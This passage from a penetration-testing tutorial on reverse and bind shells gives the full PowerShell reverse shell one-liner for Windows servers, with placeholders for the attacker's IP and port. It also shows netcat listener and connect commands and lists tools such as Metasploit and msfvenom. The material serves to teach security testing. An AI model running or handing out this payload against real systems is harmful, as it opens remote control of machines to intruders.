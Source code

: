 This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![Sending a nc reverse shell](https://i.imgur.com/Xf0hA5p.png)

---

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

* This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```zsh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace `"<IP>"` and `"<port>"` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![Example of gaining a reverse shell on a windows machine](https://i.imgur.com/T6o7kOL.png)

* For other common reverse shell payloads, [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

---

## Tools ##

1. Netcat
1. Socat
1. Metasploit Framework
1. Msfvenom
1. Metasploit multi/handler

### 1. Netcat ###

* Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.

```ZSH
# To start a listener
nc -lvnp <port-number>

# To connect to a 'Target' system
nc <target-ip> <chosen-port>
```
